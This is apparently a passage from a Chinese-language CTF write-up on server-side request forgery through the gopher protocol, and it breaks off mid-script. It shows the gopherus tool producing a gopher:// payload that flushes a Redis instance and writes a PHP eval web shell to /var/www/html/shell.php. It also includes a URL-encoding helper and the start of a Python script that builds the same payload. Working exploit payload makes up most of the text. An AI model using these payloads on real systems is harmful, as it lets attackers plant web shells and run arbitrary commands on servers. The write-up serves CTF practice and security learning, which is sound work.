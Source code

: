 ```python
a=a.replace('\n','')
a=a.replace(' ','')
b=''
length=len(a)
for i in range(0,length,2):
    b+='%'
    b+=a[i]
    b+=a[i+1]
print(b)
```

同样的步骤只执行cat /flag_ab9cb5afbe32856c806fb8d0a653b966这个可以得到flag

**Redis协议**

redis用REST协议来通信，这里我们用gopherus来构造payload，这里用phpshell，默认的web路径就行再写上我们的shell脚本

```
 gopherus --exploit redis


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): php

Give web root location of server (default is /var/www/html):
Give PHP Payload (We have default PHP Shell): <?php @eval($_POST['hack']); ?>

Your gopher link is Ready to get PHP Shell:

gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20%40eval%28%24_POST%5B%27hack%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

When it's done you can get PHP Shell in /shell.php at the server with `cmd` as parmeter.

-----------Made-by-SpyD3r-----------
```

或者用python脚本生成payload

```python
import urllib
from urllib import parse

protocol = "gopher://"
ip = "127.0.0.1"
port = "6379"
shell = "\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename = "shell.php"
path = "/var/www/html"
passwd = ""
cmd = ["flushall",
       "set 1 {}".format(shell.replace(" ", "${IFS}")),
```